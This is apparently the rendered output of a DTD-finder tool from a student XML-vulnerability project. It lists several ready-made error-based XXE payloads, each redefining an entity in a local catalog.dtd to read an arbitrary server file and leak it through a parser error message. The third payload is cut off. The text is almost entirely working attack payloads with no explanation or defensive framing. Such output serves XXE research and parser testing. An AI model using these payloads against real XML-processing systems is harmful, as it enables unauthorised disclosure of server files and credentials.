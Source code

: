 **Injectable entity:** `local.delegateURI.attribs`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % local.delegateURI.attribs '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `local.nextCatalog.attribs`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % local.nextCatalog.attribs '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd`

**Injectable entity:** `local.group.attribs`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/xmlcore/catalog.dtd">

    <!ENTITY % local.group.attribs '>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa "bb"'>

```